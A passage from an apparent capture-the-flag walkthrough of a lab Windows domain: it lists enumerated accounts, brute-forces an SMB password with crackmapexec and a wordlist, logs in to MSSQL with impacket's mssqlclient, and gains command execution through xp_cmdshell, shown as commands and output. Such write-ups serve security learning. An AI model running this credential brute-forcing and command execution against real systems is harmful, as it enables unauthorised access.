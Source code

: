  ```sh
 ```

The  `SidTypeUser` represents the users. So we found two more users.

1. `SVC-Kerb`
2. `krbtgt`

## Crackmapexec | Bruteforce

- User `SVC-Kerb`

```sh
┌──(alienum㉿kali)-[~]
└─$ crackmapexec smb ustoun.local -u SVC-Kerb  -p /usr/share/wordlists/rockyou.txt
SMB         10.10.138.186   445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:ustoun.local) (signing:True) (SMBv1:False)
SMB         10.10.138.186   445    DC               [-] ustoun.local\SVC-Kerb:123456 STATUS_LOGON_FAILURE
SMB         10.10.138.186   445    DC               [-] ustoun.local\SVC-Kerb:12345 STATUS_LOGON_FAILURE
SMB         10.10.138.186   445    DC               [-] ustoun.local\SVC-Kerb:123456789 STATUS_LOGON_FAILURE
SMB         10.10.138.186   445    DC               [-] ustoun.local\SVC-Kerb:password STATUS_LOGON_FAILURE
...
SMB         10.10.138.186   445    DC               [+] ustoun.local\SVC-Kerb:s******n
```

- Credentials `SVC-Kerb` : `s******n`
## impacket | mssqlclient

```#!/bin/sh
┌──(alienum㉿kali)-[~]
└─$ locate mssqlclient
/usr/share/doc/python3-impacket/examples/mssqlclient.py
```

## mssqlclient

```#!/bin/sh
┌──(alienum㉿kali)-[~]
└─$ python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py ustoun.local/svc-kerb:s******n@10.10.83.216
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC): Line 1: Changed database context to 'master'.
[*] INFO(DC): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208)
[!] Press help for extra shell commands
SQL> xp_cmdshell "whoami"

output                                                                             

--------------------------------------------------------------------------------   

dc01\svc-kerb
```
